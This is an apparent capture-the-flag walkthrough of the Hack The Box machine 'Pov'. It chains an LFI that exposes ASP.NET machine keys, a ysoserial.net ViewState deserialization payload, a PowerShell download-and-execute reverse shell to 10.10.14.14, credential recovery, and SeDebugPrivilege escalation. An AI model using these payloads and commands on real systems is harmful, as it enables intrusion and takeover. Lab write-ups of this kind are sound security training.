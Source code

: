 ```yaml
---
layout: post
title: "HTB Pov: Walkthrough"
date: 2024-11-29 10:00:00 +0000
categories: [HTB]
tags: [HTB, SeDebugPrivilege, Deserialization]
image:
  path: https://raw.githubusercontent.com/partyh4t/partyh4t.github.io/refs/heads/main/assets/posts/Headers/HTB.png
---
```


![image](https://github.com/user-attachments/assets/033f1bbf-8a89-40cd-9c85-1f7648fedec3)


## 0) Machine Overview
1. [Scans](#1-scans)
2. [Web Enumeration](#2-web-enumeration)
3. [Privilege Escalation](#3-privilege-escalation)
4. [Privilege Escalation 2](#4-privilege-escalation-2)

## 1) Scans

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (88%)
```

Just port 80 is open, kinda odd to see that nowadays.

## 2) Web Enumeration

First thing I do is always manually interact and test the functionality of the website. In this case, there wasn't much to do. However, within the web-page, a hint to a different subdomain is found:

![image](https://github.com/user-attachments/assets/c1a3f134-b394-4609-8010-3af72c99c932)


And an email:
`sfitz@pov.htb`

Lets check out this new subdomain, whilst we run a domain bruteforce on the main webpage.

One thing I feel like is being hinted at, is the fact that the developer has a clear interesting of ASP.NET over the other languages, using bold for ASP.NET:

![image](https://github.com/user-attachments/assets/9b40e353-07f1-482a-ad2a-766a3b7e3b4d)

And if we inspect his CV:

![image](https://github.com/user-attachments/assets/a60c9ea0-4982-4b71-898f-4053a9f7df2e)

And them his testemonials:

![image](https://github.com/user-attachments/assets/193ba81e-7a01-43ad-9c3c-b2b0e315bce7)

Clearly hinting at something with ASP.Net.

So I started researching what possible vulnerabilities could be found within .NET, and the one that stood out to me was
`.NET Deserialization`.

In an extremely short and brief explanation as to how one could exploit that using `ysoserial.net`

```
ysoserial.net is a collection of utilities and property-oriented programming "gadget chains" discovered in common .NET libraries that can, under the right conditions, exploit .NET applications performing unsafe deserialization of objects. 

The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having gadgets on the classpath.
```


Now first we need to identify where we could even exploit such a vulnerability. If we head over to `contact.aspx` and intercept using Burpsuite, we can see that their is a `_VIEWSTATE`:

![image](https://github.com/user-attachments/assets/12cb4cbb-d16e-4a04-ba7e-3627bac94ff4)

Now here I did lots of research and this was my first time encountering a `deserialization` vulnerability. According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter), using the `__VIEWSTATE` parameter is a viable option and has been highly researched/tested.

Firstly, we need to know if that viewstate payload is _just_ base64 encoded, or if its encrypted and _then_ encoded. To do that, we can intercept with Burp and use an extension called `ViewState Editor` and head to that tab:

![image](https://github.com/user-attachments/assets/b7d843b0-fd4c-4883-8db1-c1bcbc2e1a4c)

Seems like its encrypted. In this case, we have 2 options. Either finding an LFI vulnerability to read the `web.config` file, or using a tool like `badsecrets` or `blacklist3r` to find the machine key. I first tried both tools, but had no luck with either, so I had to resort to trying to find an LFI.

I went back and intercepted the CV Download, to see what the request actually looked like. To my surprise, it was vulnerable to LFI:

![image](https://github.com/user-attachments/assets/50eb16a5-f410-45c8-ad6d-fe91bf421bf0)

![image](https://github.com/user-attachments/assets/92ae631e-56bd-4d1e-98fe-b578948d84e8)

Now we have the keys, we can encrypt and encode our own payload to put into the `__VIEWSTATE` parameter, using `ysoserial.net`, thanks again to HackTricks:
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "ping -n 5 10.10.14.14" --path="/portfolio/contact.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --isdebug
```

_(I originally tried providing the generator manually, but for some reason that doesn't work, and I had to provide the path, then it worked.)_

![image](https://github.com/user-attachments/assets/3e0498d5-68fc-4ffe-b8e5-5e0074a75e3e)

Lets get a shell now.
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.14/powercat.ps1');powercat -c 10.10.14.14 -p 1337 -e cmd" --path="/portfolio/contact.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --isdebug
```

![image](https://github.com/user-attachments/assets/96c39125-bc01-4af6-aa5f-9872974c3a07)

## 3) Privilege Escalation

Found an interesting file in `C:\Users\sfitz\Documents`

![image](https://github.com/user-attachments/assets/c4059147-0076-4564-a8af-b56ea02b4596)

Found sfitz's hash, but not much we can do with it considering we're already that user.
```
sfitz::POV:1122334455667788:c8095b512261711c926811ea8202336c:0101000000000000ff3a884d4652da01b8f3b8969c4d2f70000000000800300030000000000000000000000000200000caced61e6f045ec58da479c9571625b0cfd41740f5ac10c64d7afffe23427d900a00100000000000000000000000000000000000090000000000000000000000
```

I looked into what we can do with that `connection.xml`file, and I noticed that you can use `Import-Clixml` alongside `GetNetworkCredential().password` to get the clear-text:

![image](https://github.com/user-attachments/assets/a6d0f160-a7b2-4942-8fdf-1425e14ef38e)
`f8gQ8fynP44ek1m3`

I tried using `RunAs` to run a reverse shell as that user, but for some reason no matter what I did it just would not work. 

I also tried using powershell:

![image](https://github.com/user-attachments/assets/e959cb61-62ba-4d5f-894f-ac92c1d93c0e)

So then I found out about `RunasCs`, which basically is a better version of `RunAs`, I just have to compile it on my host machine.

First I had to create a `.csproj` file with: 
_(I put `net4.5` since I assumed that's what the target machine was using from earlier. Dont know if it would have mattered though.)_
```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net4.5</TargetFramework>
  </PropertyGroup>

</Project>
```

Then build it:

![image](https://github.com/user-attachments/assets/9d65df5f-ae66-4900-bbe1-0521b46e3a78)

Once uploaded:

![image](https://github.com/user-attachments/assets/b99f8b3f-c215-4c91-bd8f-f02ae1cddc5b)
![image](https://github.com/user-attachments/assets/7fb03194-8e5e-4c58-a41e-23bf2dfe75e7)

## 4) Privilege Escalation 2

If we run `whoami /priv`:

![image](https://github.com/user-attachments/assets/ac14a969-e94d-4431-86db-43b32f073ff9)

We can see we have `SeDebugPrivilege`, although it says its disabled. Usually we can try a variety of things to get it enabled, like getting a meterpreter shell, using `EnableAllTokenPrivs.ps1`, and probably other odd methods.

Now here, there's 2 ways we can go:

Either we can migrate to a different process using Metasploit, which would _(In my assumptions, do exactly what manually exploiting an SeDebug privilege would do, and inject itself/shellcode into the process id we give it)_ automatically giving us SYSTEM.

Or we can manually exploit it using `SeDebugPrivilegePoC.exe`, although we would have to compile it on our own machine manually since I wasn't able to compile it on the target. We also could try using `psgetsystem.ps1`. _(There is also xct's PoC as well)_

If we want to change the code that gets executed by `SeDebugPrivilegePoC.exe`, we can just alter it within the `.cs` file before compiling, at the `CreateProcess()` function.

In this case, I wasn't able to get any of the PoC's working, so I just resorted to the Metasploit method.

![image](https://github.com/user-attachments/assets/859354de-c3f1-4244-9775-1cf54c50dcbc)

Pwned.

